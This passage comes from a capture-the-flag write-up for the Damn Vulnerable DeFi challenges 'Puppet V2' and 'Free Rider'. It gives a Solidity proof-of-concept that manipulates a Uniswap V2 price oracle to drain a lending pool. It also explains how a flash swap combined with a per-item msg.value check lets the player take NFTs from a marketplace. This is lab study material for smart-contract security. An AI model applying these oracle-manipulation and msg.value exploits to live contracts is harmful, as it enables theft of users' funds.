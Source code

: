 PoC:
```solidity
// add this test
function test_puppetV2() public checkSolvedByPlayer {
        
    // 1. Player swaps all its tokens for WETH
    token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);
    address[] memory path = new address[](2);
    path[0] = address(token);
    path[1] = address(weth);

    uniswapV2Router.swapExactTokensForTokens(
        PLAYER_INITIAL_TOKEN_BALANCE,
        0,
        path,
        player,
        block.timestamp * 2
    );

    // 2. Player deposits its ETH to mint WETH
    weth.deposit{value: player.balance}();

    weth.approve(address(lendingPool), weth.balanceOf(player));
    lendingPool.borrow(POOL_INITIAL_TOKEN_BALANCE);
    token.transfer(recovery, token.balanceOf(player));
}
```

#### Learning by doing
- [UniswapV2Router02](https://docs.uniswap.org/contracts/v2/reference/smart-contracts/router-02) 

---

### Free Rider

Condition:
- `mareket` loss ETH and all NFTs
- `player` earn all bounty reward (i.e. `BOUNTY = 45 ether`) from `recoveryManager`

Key Concept:
- [Flash Swaps](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/flash-swaps)
- Miss-used `msg.value` for validation 

Solution:
- Due to the initial limited ETH balance, we must find the way to prepare funds, by observing `setup()`, we can leverage flash swap (i.e., flashloan service provided by `uniswapPair` exchange)
- Since all NFTs require for `90 ETH`, while `BOUNTY = 45 ether`, it seems that we can't  simply borrow and repay flashloan
- It must have a bug inside `marketplace`, by observing the code, it can be found that but since we can call `buyMany()` to buy multiple NFTs at the same time, and every time it just checks if `msg.value < priceToPay`, so we can simply send `15 ehter` and buy multiple NFTs
- Note that when repay flashloan, there's a small fee required (0.3% for Uniswap)

